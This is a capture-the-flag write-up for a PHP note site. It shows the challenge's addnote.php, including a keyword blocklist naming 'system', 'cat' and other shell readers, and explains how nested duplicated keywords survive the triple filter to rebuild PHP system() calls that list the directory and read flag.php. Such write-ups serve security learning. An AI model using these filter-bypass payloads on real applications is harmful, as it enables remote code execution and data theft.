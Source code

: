 # 

## Challenge Description

![image](https://user-images.githubusercontent.com/56489087/139527309-ee0b8d13-c9a3-4754-8964-348076f03130.png)

## Target

We can see the the website is just a note creating site that contain links to notes in a php file format. If they are saved in PHP that means we can use PHP to execute code. 

![image](https://user-images.githubusercontent.com/56489087/139527977-b20ce664-e0bd-4232-8aba-fa420a6dce55.png)


## Addnote.php

File provided in challenge.

```php
<?php
session_start();

function generateRandomString($length = 15) {
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $charactersLength = strlen($characters);
    $randomString = '';
    for ($i = 0; $i < $length; $i++) {
        $randomString .= $characters[rand(0, $charactersLength - 1)];
    }
    return $randomString;
}
function filter($originalstring)
{
    $notetoadd = str_replace("<?php", "", $originalstring);
    $notetoadd = str_replace("?>", "", $notetoadd);
    $notetoadd = str_replace("<?", "", $notetoadd);
    $notetoadd = str_replace("flag", "", $notetoadd);

    $notetoadd = str_replace("fopen", "", $notetoadd);
    $notetoadd = str_replace("fread", "", $notetoadd);
    $notetoadd = str_replace("file_get_contents", "", $notetoadd);
    $notetoadd = str_replace("fgets", "", $notetoadd);
    $notetoadd = str_replace("cat", "", $notetoadd);
    $notetoadd = str_replace("strings", "", $notetoadd);
    $notetoadd = str_replace("less", "", $notetoadd);
    $notetoadd = str_replace("more", "", $notetoadd);
    $notetoadd = str_replace("head", "", $notetoadd);
    $notetoadd = str_replace("tail", "", $notetoadd);
    $notetoadd = str_replace("dd", "", $notetoadd);
    $notetoadd = str_replace("cut", "", $notetoadd);
    $notetoadd = str_replace("grep", "", $notetoadd);
    $notetoadd = str_replace("tac", "", $notetoadd);
    $notetoadd = str_replace("awk", "", $notetoadd);
    $notetoadd = str_replace("sed", "", $notetoadd);
    $notetoadd = str_replace("read", "", $notetoadd);
    $notetoadd = str_replace("system", "", $notetoadd);

    return $notetoadd;
}

if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];

    //3rd times the charm and I've learned my lesson. Now I'll make sure to filter more than once :)
    $notetoadd = filter($newnote);
    $notetoadd = filter($notetoadd);
    $notetoadd = filter($notetoadd);

    $filename = generateRandomString();
    array_push($_SESSION["notes"], "$filename.php");
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```

We can see that the filter function is being used on our payload 3 times. Because it search out and replaces it with nothing, it closes the gaps within our payload. After some testing  we came up with this payload.

> <<<<????php ssssystemystemystemystem("ls"); ????>>>>

It will progress in such a way that the last payload left will evaluate to:

```php
<?php system("ls"); ?>
```

This command will allow us to read the contents of the root directory.

We can then find the name of the flag file and read its contents.

> <<<<????php ssssystemystemystemystem("ccccatatatat fffflaglaglaglag.php"); ????>>>>
```php
<?php system("cat flag.php"); ?>
```

![image](https://user-images.githubusercontent.com/56489087/139528082-7b83b53e-8123-4fec-97a7-6c659a64d35a.png)

